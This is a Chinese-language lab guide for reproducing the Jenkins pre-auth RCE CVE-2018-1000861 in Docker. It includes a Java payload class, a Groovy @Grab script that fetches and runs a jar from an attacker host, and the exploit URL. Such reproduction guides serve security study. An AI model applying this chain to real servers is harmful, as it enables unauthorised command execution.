

# Jenkins远程命令执行漏洞（CVE-2018-1000861）

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个已经成功初始化的Jenkins，无需再进行任何操作。

## 漏洞复现

参考<https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC>，修改其中Payload.java为我们自己的POC：

```java
public class Payload {
  public Payload() {
    try {
      String payload = "touch /tmp/success";
      String[] cmds = { "/bin/bash", "-c", payload };
      java.lang.Runtime.getRuntime().exec(cmds);
    } catch (Exception e) {
    }
  }
}
```

编译成`payload-1.jar`。将其放在攻击者的服务器上，路径为`http://<EXPLOIT HOST>/package/payload/1/payload-1.jar`。

然后编写如下Groovy脚本，其中`http://<EXPLOIT HOST>`是攻击者服务器：

```
@GrabConfig(disableChecksums=true)
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')
@Grab(group='package', module='payload', version='1')
import Payload;
```

将这段代码URL编码后，作为如下URL中value参数的值`http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=<groovy-code>`，请求：



此时，服务器应该受到了两个请求：


目标会先请求POM文件`/package/payload/1/payload-1.pom`，如果这个文件不存在，则会请求`/package/payload/1/payload-1.jar`，也就是我们的Payload。

最后，我们的`payload-1.jar`被加载，成功执行命令：


